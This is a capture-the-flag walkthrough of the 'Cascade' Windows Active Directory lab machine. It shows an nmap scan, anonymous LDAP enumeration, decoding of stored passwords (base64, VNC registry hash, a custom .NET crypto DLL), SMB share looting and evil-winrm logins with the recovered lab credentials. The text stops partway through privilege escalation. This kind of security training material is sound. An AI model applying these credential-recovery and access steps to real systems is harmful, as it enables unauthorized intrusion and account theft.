- Machine Name: Cascade
- OS Type: Windows
- Difficulty: Medium

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Fri Jul  4 21:38:37 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.10.182
Nmap scan report for 10.10.10.182
Host is up, received echo-reply ttl 127 (0.21s latency).
Scanned at 2025-07-04 21:38:45 IST for 439s
Not shown: 65520 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-04 16:14:32Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51409/tcp): CLEAN (Timeout)
|   Check 2 (port 63871/tcp): CLEAN (Timeout)
|   Check 3 (port 10882/udp): CLEAN (Timeout)
|   Check 4 (port 55714/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 4s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-04T16:15:25
|_  start_date: 2025-07-04T16:03:14

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  4 21:46:04 2025 -- 1 IP address (1 host up) scanned in 446.22 seconds

```

## Enumeration

### Port 139,445/SMB

let’s check if the SMB allows null-session or not

```bash
smbclient -L //10.10.10.182 -N
```



we found the server  is allowing anonymous login is allowed, but no share listing, it also appears to windows AD machine with domain `cascade.local` let’s add this domain in /etc/hosts and move to next service LDAP port 389

```bash
echo "10.10.10.182 cascade.local" | sudo tee -a /etc/hosts
```

### Port 389/LDAP

let’s enumerate LDAP, and see if the LDAP allows anonymous binding or not, first we’ll find DN (DistinguishedName) for the domain

```bash
ldapsearch -H ldap://10.10.10.182 -x -s base namingcontexts
```



and then use this as base to perform search on Active Directory

```bash
ldapsearch -H ldap://10.10.10.182 -x  -b "DC=cascade,DC=local"
```

and we got the Access to all information related to the Domain, now let’s create user list using

```bash
ldapsearch -H ldap://10.10.10.182 -x  -b "DC=cascade,DC=local" "(objectClass=User)" | grep -i samaccountname | cut -d ":" -f2 | tr -d " " > users.txt
```

when i was reading the ldapsearch output i found the some weird Properties



looks like it is encoded, i tried to decode it using base64

```bash
echo "clk0bjVldmE=" | base64 -d
```



let’s use this password to check open shares 

```bash
sudo nxc smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares
```



let’s use the smbclient to connect to Data share

```bash
smbclient //10.10.10.182/Data -U r.thompson%rY4n5eva
```



let’s download all files and folders recursively

```bash
smb: \> recurse
smb: \> prompt
smb: \> mget *
```



there’s many folders and files we’ll confuse by it so i moved all these in files folder and then run `tree` command



first i read the Meeting_Notes html file



so it says that the Company is using temporary account for network migration related task, username is TempAdmin, and password is normal admin account password. this gold info, but for now we’ll keep this into our back-pocket and check other files

now we’ll read `ArkAdRecycleBin.log` and we found that the tempadmin has been moved to recycle bin, this is also useful information we possibly need to recover this account for future



reading the VNC Install.reg



i searched for the Decrypt password hex from VNC server registry key → https://github.com/frizb/PasswordDecrypts

```bash
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["<ENCRYPTED-PASSWORD-HASH>"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```



nice we got the password - sT333ve2, we found this from s.smith’s folder let’s try this creds for s.smith

let’s check if we can login using winrm as s.smith using

```bash
sudo nxc winrm 10.10.10.182 -u s.smith -p 'sT333ve2'
```



Bingo we have access to winrm let’s use the evil-winrm to login as s.smith

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```



now i tried to check what permission does the user have



i found that the user is member of the Audit Share, the share we saw before, let’s check if we have read permission to that share or not

```bash
sudo nxc smb 10.10.10.182 -u s.smith -p sT333ve2 --shares
```



let’s login to the Audit$ share

```bash
smbclient //10.10.10.182/Audit$ -U s.smith%sT333ve2
```



let’s download all files

```bash
smb: \> recurse
smb: \> prompt
smb: \> mget *
```



now the CascAudit seems to custom binary, let’s move all dlls, Database file, exe file to our windows host and i’ll be using the dnSpy to decompile the exe

after opening the CascAudit, open the exe file, and then go to main() function where we find password decryption code



Addd Breakpoint ad Line 58 (sqliteConnection.Close();), and start decompiling, we can get the password from there



**another way** is to take a decryption code create your own dotnet project and then run it go get password, to do that first get the encrypted password string from database

```bash
sqlite3 Audit.db
```



and then to list tables

```bash
sqlite> .tables

#to select data from LDAP table

sqlite> select * from Ldap;

#to confirm that 3rd column is contains password we need to check column name

sqlite> PRAGMA table_info(ldap);
```



great, now on windows host open cmd (make sure you’ve already installed dotnet in you machine)

to create new console app

```bash
dotnet new console -n CascAuditApp
```

this will create new folder, move the `CascCrypto.dll` to that folder and edit Program.cs and paste below code

```bash
using System;
using CascCrypto;

public class Program
{
    public static void Main()
    {
        string text = "BQO5l5Kj9MdErXx6Q6AGOw==";
        string password = Crypto.DecryptString(text, "c4scadek3y654321");
        Console.WriteLine("Plain Text Password " + password);
    }
}
```

and we need to provide the CasCrypto.dll reference in `CascCryptoApp.csproj`

```bash
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net9.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <ItemGroup>
    <Reference Include="CascCrypto">
      <HintPath>CascCrypto.dll</HintPath>
    </Reference>
  </ItemGroup>

</Project>
```

now run the `dotnet build` to build it and then dotnet run to run `dotnet run`



and we got our plaintext password, for **ArkSvc**

i used netexec to check if the user has winrm access or not

```bash
sudo nxc winrm 10.10.10.182 -u ArkSvc -p 'w3lc0meFr31nd'
```



and yeah we got the winrm access, let’s use evil-winrm to login to target machine 

```bash
evil-winrm -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd
```



after gaining access as arksvc, i tried to check the group membership of the user



as we noticed earlier that the tempadmin was removed and was using default administrator’s password as per 